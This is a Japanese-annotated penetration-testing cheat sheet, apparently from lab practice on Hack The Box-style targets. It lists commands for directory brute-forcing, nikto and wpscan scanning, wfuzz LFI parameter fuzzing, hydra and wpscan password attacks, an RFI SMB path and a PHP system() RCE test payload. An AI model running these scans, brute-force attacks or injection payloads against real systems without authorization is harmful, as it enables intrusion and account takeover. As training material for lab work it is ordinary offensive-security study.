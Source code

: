
### gobuster

スモール
    gobuster dir -u http://10.129.1.171/blog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

ミディアム
    gobuster dir -u http://10.129.1.185/webservices -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

演算子指定
    gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>

### nikto  

    nikto -Display on -host 10.11.1.71 -o 出力ファイル名

### wfuzz

LFI
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/common.txt
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/common.txt --hl 229
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt --hl 229


### hydra

- post

    hydra -l /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt -p admin 10.129.138.33 http-post-form "/api/session/authenticate:username=^USER^&password=admin:Login Failed"

### LFI

- Windows
    \windows\system32\license.rtfとか

### RFI

- smb

    =\\10.10.17.46\share\test.txt

- testphp

    <?php system("echo(RCE TEST);") ?>

### WordPress

- Vulnerable Plugins

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e vp,vt,cb,dbe,u --plugins-detection aggressive -vv

- Popular Plugins

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e p,vt,cb,dbe,u --plugins-detection aggressive -vv

- full

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e ap,vt,cb,dbe,u --plugins-detection aggressive -o wpscan.log -vv

- passwordcrack
ユーザ名がとれている場合で、xmlrpcが使えるなら以下そのままで問題ない。（使えない場合`wp-login`）

httpsの場合
    wpscan --url https://brainfuck.htb/ -e u -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc --disable-tls-checks

httpの場合
    wpscan --url http://brainfuck.htb/ -e u -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc



### Drupal

バージョン情報はCHANGELOG.txtで確認できるけど、基本droopscanをまずは実行する。

    ./droopescan scan drupal -u http://10.129.139.15/
